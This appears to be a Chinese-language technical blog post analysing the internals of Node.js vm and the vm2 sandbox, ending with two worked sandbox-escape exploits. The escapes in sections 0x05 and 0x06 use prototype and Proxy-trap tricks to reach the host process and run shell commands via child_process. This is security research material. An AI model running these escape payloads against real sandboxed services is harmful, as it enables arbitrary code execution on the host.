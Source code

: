 # nodevm的运行流程

vm2其实是在vm的基础上进行二次开发所形成的一个沙箱运行环境，所以在内部本身的实现还是调用的是vm的机制。

要了解这部分知识必须先了解proxy:https://es6.ruanyifeng.com/?search=weakmap&x=0&y=0#docs/proxy

## 0x01 vm api

![image-20210920071650251](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920071650251.png)

对应的别人的代码就是

```javascript
const vm = require('vm');
const context = {
  animal: 'cat',
  count: 2
};//运行环境的上下文
const script = new vm.Script('count += 1; name = "kitty";'); //编译code
vm.createContext(context); // 创建一个上下文隔离对象
for (let i = 0; i < 10; ++i) {
  script.runInContext(context); // 在指定的下文里执行code并返回其结果 不用套for循环的
}
console.log(context);
```

或者使用vm自己创建的上下文环境

```javascript
const vm = require("vm");
console.log(vm.runInNewContext("let a = 2;a")); //2
```

其实在vm的逃逸中之所以会出现问题，也是因为对于外部的__constructor__和prototype的过滤不严格。

## 0x02 vm2 api

vm2的包的关键文档就只有以下四个部分

![image-20210920072607352](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920072607352.png)

包括了cli.js和contextify.js和main.js和sandbox.js四个文件

cli.js => 实现vm2的命令行调用

contextify.js => 处理了上下文 避免沙盒逃逸问题的出现； VMError Contextify 对global的buffer进行了处理

main.js => vm2执行的入口，导出了 `NodeVM`, `VM` 这两个沙箱环境，还有一个 `VMScript` 实际上是封装了 `vm.Script`

sandbox.js => hook了global的属性

## 0x03 vm2 运行原理

当我们创建一个VM的对象的时候，vm2内部引入了 `contextify.js`，并且针对上下文 `context` 进行了封装，最后调用 `script.runInContext(context)` ，可以看到，vm2最核心的操作就在于针对`context`的封装。

![image-20210920091349963](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920091349963.png)

分析一下这一行的代码的调用栈

![image-20210920091954260](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920091954260.png)

大概长这个样子，我们从最底层开始分析。

他新建了一个Proxy对下个，并且使用Object.assign来进行属性的拷贝

![image-20210920092223195](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920092223195.png)

我们会发现这样一个好玩的事情。这里就会将deeptrap和traps来进行合并，从而获得一个完整的属性，前面做的所有事情都是为了判断对象的类型，从而加上不同的traps。从而获得一个全新的proxy。

所以这样的话，在vm2的沙箱中运行的时候，访问对象的这些方法都会被沙箱本身拦截，从而获得不一样的体验。

## 0x04 代码分析跟踪

```
const {VM,VMScript} = require('VM2');
const fs = require('fs');
const file = `${__dirname}\\sandbox.js`;
const script = new VMScript(fs.readFileSync(file),file);
console.log((new VM()).run(script));


sandbox.js
let a = Buffer.from(""); //访问Buffer的from属性并调用
a.i = () => {}; //给对象添加属性
console.log(a.i); //访问对象的属性

```

![image-20210920094940936](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920094940936.png)

首先是buffer的from方法就被代理的get方法拦截。

![image-20210920100617683](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920100617683.png)

对他的调用 又被拦截

![image-20210920100736303](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920100736303.png)

设置方法也被拦截

![image-20210920100759957](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920100759957.png)

![image-20210920104931151](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920104931151.png)

我们看到，如果我们访问这个函数代理对象的 `constructor` 属性，返回的是 `host.Function` !

但是作者考虑到了这个因素的影响，所以我们在处理的时候，会调用他的get方法，在其中进行了处理，但是这里也是又问题的地方。

## 0x05 vm2逃逸分析

```
var handler = {
    get () {
     console.log("get");
    }
  };


  var target = {};

  var proxy = new Proxy(target, handler);

  Object.prototype.has = function(t, k){
    console.log("has");
  }

  proxy.a; //触发get
  "" in proxy; //触发has，这个has是在原型链上定义的w
```

我们很容易发现第一个get方法的出发就是proxy的正常使用，但是第二个方法，我们发现继承了Object的has方法。

然后我们来看一下,本身vm2的逃逸代码

```javascript
"use strict";

var process;

Object.prototype.has = function (t, k) {
    process = t.constructor("return process")();
};

"" in Buffer.from;
process.mainModule.require("child_process").execSync("whoami").toString()
```

我们知道在vm2中，作者并没有一开始就加上has方法，所以我们可以自己加上。这样在执行Buffer.from的时候就会触发has方法。

就会去执行我们定义好的has方法，由于 `proxy` 的机制，参数 `t` 是 `function Buffer.from` ，这个`function是在外部`的，其上下文是 nodejs 的global下，所以访问其 `constructor` 属性就获取到了外部的 `Function`，从而拿到外部的 `process`

在新版本中，作者增加了has方法，这样就不会去原型链上面寻找该方法，所以这个方法在新版本已经没有用了。

## 0x06 逃逸分析2

```
"use strict";
const {VM} = require('vm2');
const untrusted = `var process;
try{
    Object.defineProperty(Buffer.from(""), "", {get set(){
        Object.defineProperty(Object.prototype,"get",{get(){
            throw x=>x.constructor("return process")();
        }});
        return ()=>{};
    }});
}catch(e){
    process = e(()=>{});
}
process.mainModule.require("child_process").execSync("id").toString();`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

当我们在a上定义新属性的时候，被代理的 `defineProperty` 拦截.检测传入的 `descriptor` 上是否设置了 get和set，如果是，调用外部的 `host.Object.defineProperty` 去实现设置对象属性的。

但是在执行 `descriptor.get` 的时候，由于 `nodejs`是异步的，此时已经执行了。所以他就会去执行我们设置的抛出异常的错误

![image-20210920115934701](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920115934701.png)

![image-20210920120027820](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920120027820.png)

![image-20210920120042258](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20210920120042258.png)

然后就逃出沙箱了

